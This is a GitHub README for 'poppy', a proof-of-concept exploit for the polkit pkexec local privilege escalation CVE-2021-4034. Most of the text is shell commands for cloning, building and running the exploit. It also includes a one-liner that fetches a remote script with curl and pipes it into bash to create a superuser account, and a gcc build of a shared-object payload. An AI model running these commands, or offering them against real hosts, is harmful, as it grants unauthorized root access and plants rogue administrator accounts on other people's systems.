 # poppy : CVE-2021-4034
CVE-2021-4034 PoC , polkit &lt; 0.131

## Usage

Tested on Arch Linux (Manjaro & Axyl OS)
```shell
git clone https://github.com/tahaafarooq/poppy
make
./poppy
```

**Super user creation exploit**

```shell
bash -c "$(curl -fsSL https://raw.githubusercontent.com/tahaafarooq/poppy/main/suuser.sh)"
```

```shell
gcc -shared su.c -o suuser -Wl,-e,entry -fPIC
./suuser
```


## POC
![anotherone](https://user-images.githubusercontent.com/49201347/151382446-242aa1f9-4eb9-40cf-98fb-a74aef95b668.png)

For more information about this vulnerability refer to the writeup https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
